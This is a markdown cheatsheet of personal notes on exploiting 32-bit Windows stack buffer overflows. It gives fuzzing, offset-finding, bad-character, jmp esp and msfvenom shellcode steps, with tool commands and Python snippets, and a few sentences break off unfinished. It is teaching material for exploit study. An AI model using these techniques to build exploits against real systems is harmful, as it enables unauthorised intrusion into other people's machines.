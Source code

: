 # 32bit Stack Overflow Cheatsheet 
These are my notes for 32bit stack overflow. It is based on windows but a lot is transferrable to linux too. :)

This cheat sheet assumes that the binary doesn't have ASLR enabled, meaning you can simply ret to a `jump esp` instruction and execute shellcode from there.

To keep it simple, the steps of the Steps of this attack are as follows:

1. [Fuzzing](#Fuzzing)
	- [Generating cyclic patterns](#generating-cyclic-patterns)
	- [Finding the offset](#finding-the-offset)
2. [Finding bad characters](#bad-characters) (commonly 0x00 and 0x0A)
	- [Generating all characters](#generating-all-characters)
	- [Looking at memory](#looking-at-memory)
3. [Locating jmp esp](#locating-jmp-esp)
4. [Generating payload](#generating-payload)
5. [Getting reverse shell](#getting-reverse-shell)

------------------------------

## Fuzzing

My preferred way of fuzzing, although unlikely to be the most efficient, is by using msf to generate a cyclic pattern of 2048 bytes and sending it to each possible user input. If a seg fault gets raised, then great! You've found your vulnerable input, if you have checked every input and still no seg fault? Increase the length of the cyclic pattern and try again.

Note: *If the binary seems to be hanging, remember that many functions that take an input from stdin will keep on reading until they hit either a null byte or a new line (\x00 or \x0a) so try appending this to the end of your payload*

Once you have found the vulnerable input, you can use a debugger to check which chunk of the pattern has overwrote the EIP. You can then search your cyclic pattern to find the size of the offset (a.k.a padding) that will be required in your exploit.

### Generating Cyclic Patterns

**Using metasploit**
```bash
msf-pattern_create -l 1024
```

**Using pwntools**  
The first method here is preferred as you can also search the pattern
```py
import pwn
pattern = pwn.cyclic_gen()
pattern.get(1024)
```
OR
```py
import pwn
pwn.cyclic(1024)
```

**Using vanilla python**
```py
def gen_pattern(length=64):     # Generates a cyclic pattern of default length 64 characters
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    pattern = "aaaa"
    while len(pattern) < length:
        lchars = pattern[len(pattern) - 4:][0] + pattern[len(pattern) - 4:][1] + pattern[len(pattern) - 4:][2] + pattern[len(pattern) - 4:][3]
        if lchars[0] == "9":
            print("Maximum pattern length reached!")
            break
        elif lchars[1] == "9":
            pattern += chars[chars.find(lchars[0]) + 1] + "a99"
            continue
        elif lchars[2] == "9":
            pattern += "a" + chars[chars.find(lchars[1]) + 1] + "a9"
            continue
        elif lchars[3] == "9":
            pattern += "aa" + chars[chars.find(lchars[2]) + 1] + "a"
            continue
        else:
            pattern += lchars[0] + lchars[1] + lchars[2] + chars[chars.find(lchars[3]) + 1]
    return pattern[:length]
```

### Finding the Offset
If using metasploit or pwntools you can enter either the raw hex value stored in EIP or the ASCII equivilent e.g. 0x616d6261 or "amba"

**Using metasploit**
```bash
msf-pattern_find -q ValueInEIP
```

**Using pwntools**
```py
import pwn
pattern = pwn.cyclic_gen()
pattern.find(ValueInEIP)
```

**Using vanilla python**
```py
# pattern is a string containing the cyclic pattern,
# unique must be in ASCII format.
unique = input("Enter the value stored in EIP: ")

if unique in pattern:
	offset = len(pattern.split(unique)[0])
	print("Your offset is {}, meaning your EIP value is located at character {} and onwards.".format(offset, offset+1))
else:
	print("EIP value not found in cyclic pattern...")
```

**Using mona with Immunity Debugger**
Once you've got a segfault using your pattern, you can use the following command:
```bash
!mona findmsp
```
This command will search memory for cyclic patterns and read you the value in eip, esp and ebp. It will

------------------------------

## Bad Characters
One of the most crucial steps when working on buffer overflows is checking for bad characters.  
Bad characters are characters that the binary will treat differently to others, and can either change the functionality or even completely truncate your payload, rendering it useless.
The most common are 0x00 and 0x0a, (null byte and newline), this is because many buffer overflows rely on input from stdin and most c functions that take input from stdin use either 0x00 or 0x0a to detect the end of an input.
However each binary will have it's own for you to discover.

The easiest way to check for bad characters is sending every character to the application and using a debugger such as Immunity Debugger to check for changes to the sent payload in memory. The first step of course is to generate

###Generating all characters
This python snippet will allow you to easily generate all characters from 0x00 to 0xFF excluding any characters you insert into the badchars list.
```py
# Generate pattern for badchar detection.
badchar_test = ""
badchars = [0x00, 0x0A]	# Definite bad chars

for i in range(0x00, 0xFF + 1):	# range(0x00, 0xFF) only returns up to 0xFE
	if i not in badchars:
		badchar_test += chr(i)
```

###Looking at memory
When looking at memory, you're really looking for the data stored inside of the stack, this data should read from 0x00 to 0xFF (obviously excluding your bad characters). If you find that your input doesn't look quite right in memory, try removing the character that seems to be causing the issue. This could be truncating your input, or even just being replaced with another byte. Either way, remove it!

There are many debuggers you can use to look through memory, personally for windows I use Immunity Debugger but anything else works too.

You can automate this process a bit through use of this mona command inside of Immunity Debugger to compare the bytes inside of a specified file to the data in memory that is located at the address stored in esp.
```bash
!mona compare -a esp -f c:\badchar_test.bin
```
When the window pops up, status unmodified means that there are no more bad characters for you to remove.
###Locating jump esp  
The reason to locate a jump esp is because of the way we are structuring our payload; our shellcode will be stored in the stack at the location specified by the value stored in esp. So by overwriting eip to an address of a jmp esp gadget, we will be jumping directly to the address stored in esp and start executing our shellcode.

To locate the jmp esp gadget, you can use a variety of methods. The simplest is by disassembling and/or debugging the binary and searching for yourself. In addition to this certain tools have functionalities which enable the user to search for gadgets automatically.  
**Using mona with Immunity Debugger**
```bash
!mona jmp -r esp -cpb "\x00\x0A"
```

------------------------------

##Generating Payload  
```bash
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```